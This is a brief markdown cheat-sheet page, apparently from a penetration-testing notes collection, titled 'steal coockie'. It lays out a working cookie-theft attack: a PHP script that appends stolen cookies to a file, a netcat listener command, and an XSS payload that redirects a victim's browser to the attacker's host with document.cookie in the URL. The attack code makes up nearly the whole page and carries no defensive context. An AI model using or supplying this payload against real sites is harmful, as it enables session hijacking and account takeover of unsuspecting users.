 [back](/other/tricks.md)
# steal coockie
1. find xss
2. create malicious php code
```bash
cat > grabber.php << EOF
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
EOF
```
3. set listener
```bash
rlwrap nc -nvlp <port>
```
4. insert xss:
```js
<script>document.location='http://<your ip>:<port>/grabber.php?c='+document.cookie</script>
```
